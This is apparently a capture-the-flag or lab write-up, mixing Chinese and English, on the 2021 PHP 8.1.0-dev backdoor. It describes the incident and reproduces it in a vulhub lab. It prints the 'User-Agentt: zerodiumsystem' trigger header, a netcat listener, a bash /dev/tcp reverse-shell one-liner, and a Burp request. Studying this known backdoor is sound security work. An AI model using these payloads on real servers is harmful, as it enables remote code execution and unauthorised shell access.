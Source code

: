 ![pic](https://miro.medium.com/max/1916/1*QzcG57XfIxQyBzs78faxZA.png)


php version: **“PHP/8.1.0-dev”.**
- [article](https://blog.csdn.net/qq_44159028/article/details/116992989).


---


### CVE

#### 漏洞概述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送User-Agentt头来执行任意代码。

目前
- PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。
- 由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

**漏洞影响**
- `PHP 8.1.0-dev`


#### 漏洞复现 

1. 环境搭建
   - 利用vulhub搭建环境，进入`/vulhub-master/php/8.1-backdoor`中，执行`docker-compose up -d`启动环境，访问`8080`

2. 文件读取
   - 后门为添加请求头
   - `User-Agentt: zerodiumsystem('id');`

3. reverse shell
   - `nc -nvlp 4444`
   - `bash -c 'exec bash -i &>/dev/tcp/10.10.10.242/4444 <&1'`


---

## Gain acess to shell: Brup

1. 使用burp抓包，并加入字段, 发现被成功执行

![Screen Shot 2021-05-29 at 2.16.20 PM](https://i.imgur.com/xz3NtvI.png)

```bash
# send the request
GET / HTTP/1.1
Host: 10.10.10.242
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
# User-Agentt: zerodiumvar_dump(2*3);
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


# get the response
HTTP/1.1 200 OK
Date: Sat, 29 May 2021 19:14:58 GMT
Server: Apache/2.4.41 (Ubuntu)
```